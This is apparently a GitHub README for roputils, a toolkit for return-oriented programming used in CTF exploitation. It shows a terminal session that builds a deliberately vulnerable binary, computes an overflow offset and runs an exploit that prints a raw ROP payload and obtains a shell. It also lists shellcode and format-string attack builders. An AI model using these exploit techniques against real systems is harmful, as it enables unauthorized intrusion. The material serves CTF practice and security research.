 # roputils

A Return-oriented Programming toolkit


## Usage

[examples/ropasaurusrex.py](examples/ropasaurusrex.py) is a write-up of PlaidCTF 2013 [ropasaurusrex](http://repo.shell-storm.org/CTF/PlaidCTF-2013/Pwnable/ropasaurusrex-200/).

Example scripts can be tested as below (getoffset requires gdb):

```
$ cd examples/

$ make
gcc -fno-stack-protector    bof.c   -o bof

$ make getoffset
python getoffset.py ./bof
120

$ python use-offset-x86-64.py ./bof 120
[+] read: '1\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x001\x04@\x00\x00\x00\x00\x00&\x06@\x00\x00\x00\x00\x00fZ6NlYRG\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x18\x10`\x00\x00\x00\x00\x00\x08\x00\x00\x00\x00\x00\x00\x00(\x10`\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00\x10\x06@\x00\x00\x00\x00\x00EkprOtWh\x00\x00\x00\x00\x00\x00\x00\x00\x01\x00\x00\x00\x00\x00\x00\x00 \x10`\x00\x00\x00\x00\x00d\x00\x00\x00\x00\x00\x00\x00H\x14`\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x10\x06@\x00\x00\x00\x00\x00Ls96gpQP\x00\x00\x00\x00\x00\x00\x00\x00@\x14`\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xce\x05@\x00\x00\x00\x00\x00'
got a shell!
id
uid=1000(user) gid=1000(user) groups=1000(user)
exit
*** Connection closed by remote host ***
```

## Overview

Currently roputils.py has the below classes:

* ELF: ELF parser (by readelf)
* ROP: ELF class with additional methods for creating ROP chains
* Shellcode: i386/x86-64/arm shellcode builder
* FormatStr: string builder for format string attack
* Proc: non-blocking IO for local/remote process
* Pattern: Metasploit pattern generator/calculator
* Asm: implementation of asm subcommand

roputils.py also can be used as CLI tool, the subcommands are:

* checksec: check security features (clone of [checksec.sh](http://www.trapkit.de/tools/checksec.html))
* pc: create Metasploit pattern
* po: calculate offset in Metasploit pattern
* gadget: check availability of tiny gadgets
* scan: grep the binary and disassemble from each index
* sc: output shellcode as hexstring
* asm: assemble/disassemble input (i386/x86-64/arm/thumb2)
* objdump: disassemble with IDA-like annotations

To list up the methods of each class, hit the below command in the same directory as roputils.py:

```
$ python -c 'import roputils as me; help(me)'
```

roputils.py is a single-file module, so your script can use it by creating a symlink in the same directory.

For more details, just read [the code](roputils.py).
